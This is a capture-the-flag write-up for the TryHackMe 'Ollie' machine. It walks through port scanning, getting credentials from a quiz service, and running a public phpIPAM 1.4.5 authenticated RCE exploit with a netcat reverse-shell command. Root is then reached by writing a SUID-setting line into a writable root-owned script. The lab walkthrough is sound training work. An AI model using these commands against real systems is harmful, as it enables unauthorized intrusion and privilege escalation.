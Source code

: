 # Ollie - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** Credential leak → Authenticated RCE in phpIPAM 1.4.5 → privilege escalation 
---------------------------
## Target
- Machine: `ollie.thm`  
- Date: `2025-10-15`  
- Environment: TryHackMe / CTF
---------------------------

## Steps

---------------------------
## 1.Initial scan:

I began with an nmap scan to discover all open ports.

```bash
└─$ nmap -sS -Pn -T4 -p- ollie.thm

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
1337/tcp open  waste?
```
------------------------------
On the login page, I identified the application as **phpIPAM (IP Address Management) version 1.4.5**.

**About phpIPAM:**
> "phpipam is an open-source web IP address management application (IPAM). Its goal is to provide light, modern and useful IP address management."

 -------------------------------
## 2. Vulnerability Identification:

```bash
└─$ searchsploit phpIPAM 1.4.5  

phpIPAM 1.4.5 - Remote Code Execution (RCE) (Authenticated) | php/webapps/50963.py

```
The search revealed an authenticated Remote Code Execution (RCE) vulnerability in phpIPAM version 1.4.5. However,
valid credentials are required to exploit this vulnerability.
Initial attempts to obtain credentials included:
- SQL injection
- Directory enumeration 
- Brute force attacks (but got banned after several failed attempts)

-------------------------------
## 3. Credential Discovery via Port 1337

When initial attacks failed, I returned to investigate the unusual service on port 1337:

```bash
└─$ nc ollie.thm 1337

Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.

What is your name? 'ollie'
What's up, Ollie! It's been a while. What are you here for? '/admin'
Ya' know what? Ollie. If you can answer a question about me, I might have something for you.


What breed of dog am I? I'll make it a multiple choice question to keep it easy: Bulldog, Husky, Duck or Wolf? 'Bulldog'
You are correct! Let me confer with my trusted colleagues; Benny, Baxter and Connie...
Please hold on a minute
Ok, I'm back.
After a lengthy discussion, we've come to the conclusion that you are the right person for the job.Here are the credentials for our administration panel.

                    Username: admin

                    Password: [REDACTED]!

PS: Good luck and next time bring some treats!
```
**Success!** The interactive service provided valid admin credentials after answering a simple quiz about Ollie's breed.
----------------------------------------

## 4. Exploitation and Initial Access

After successful authentication, I utilized **public exploit #50963** from Exploit-DB, which exploits a remote code execution vulnerability in phpIPAM 1.4.5.

```bash
└─$ python3 exploit.py -url http://ollie.thm -usr admin -pwd [REDACTED]! -cmd 'busybox nc [YOUR_IP] 4444 -e bash'

[...] Trying to log in as admin
[+] Login successful!
[...] Exploiting
[+] Success! The shell is located at http://ollie.thm/evil.php. Parameter: cmd

```
Reverse Shell Connection:
Simultaneously, a netcat listener was running, which successfully caught the reverse shell connection:
 
```bash
└─$ nc -lnvp 4444    
listening on [any] 4444 ...
connect to [YOUR_IP] from (UNKNOWN) [10.10.164.217] 57930
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-164-217:/var/www/html$ export TERM=xterm
export TERM=xterm
```
---------------------------------

## user.txt flag 

The `ollie` user account reused the same password discovered.

```bash
www-data@ollie.thm:/home$ su ollie
Password: 
ollie@ollie.thm:~$ id
uid=1000(ollie) gid=1000(ollie) groups=1000(ollie),4(adm),24(cdrom),30(dip),46(plugdev)
ollie@ollie.thm:~$ cat user.txt 
THM{[REDACTED]}
```
------------------------------------

## root.txt flag

Discovery of Writable Binary

Enumeration revealed a custom binary with unusual permissions:

```bash
ollie@ollie.thm:~$ find / -type f -user root -writable 2>/dev/null

/usr/bin/feedme

ollie@ollie.thm:~$ ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 30 Feb 12  2022 /usr/bin/feedme
ollie@ollie.thm:~$ cat /usr/bin/feedme
#!/bin/bash

# This is weird?
```
The /usr/bin/feedme binary is owned by root but writable by the ollie user, presenting a privilege escalation vector.

Since the binary is executed by root (likely via cron job or SUID mechanism), I modified it to set the SUID bit on bash:

```bash
echo 'chmod +s /bin/bash ' > /usr/bin/feedme

ollie@ollie.thm:~$ /usr/bin/feedme
bash: /usr/bin/feedme: Permission denied
ollie@ollie.thm:~$ sudo /usr/bin/feedme
[sudo] password for ollie: 
ollie is not in the sudoers file.  This incident will be reported.
ollie@ollie.thm:~$ bash -p
bash-5.0# id
uid=1000(ollie) gid=1000(ollie) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),1000(ollie)
bash-5.0# cat /root/root.txt 
THM{[REDACTED]}
```
